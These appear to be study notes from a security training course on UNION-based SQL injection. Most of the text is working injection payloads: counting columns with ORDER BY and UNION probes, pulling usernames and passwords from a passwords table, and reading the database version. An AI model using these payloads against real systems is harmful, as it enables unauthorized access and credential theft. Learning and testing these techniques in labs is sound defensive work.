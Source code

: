 #### Union Clause

```shell-session
SELECT * FROM ports UNION SELECT * FROM ships;
```
UNION combines two tables together (only works on tables with same number of columns)

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The products table has 2 columns, so in order to union it, we can join 2 columns of usernames
```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

If products tables is 4 columns, we can do:
```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```


#### Union Injection

Detect number of columns:
- Using ORDER BY
- Using UNION

Order by 1 -> success
Order by 2 -> success
Order by 3 -> success
Order by 4 -> fail
We know there are 3 columns in the table

```sql
' order by 1-- -
```
Reminder: We are adding an extra dash (-) at the end, to show you that there is a space after (--).


Using UNION to find number of columns:
```sql
cn' UNION select 1,2,3-- -
```
Error ^
```sql
cn' UNION select 1,2,3,4-- -
```
Success ^

You must place injection output in columns that are actually displayed to the screen.

```sql
cn' UNION select 1,@@version,3,4-- -
```

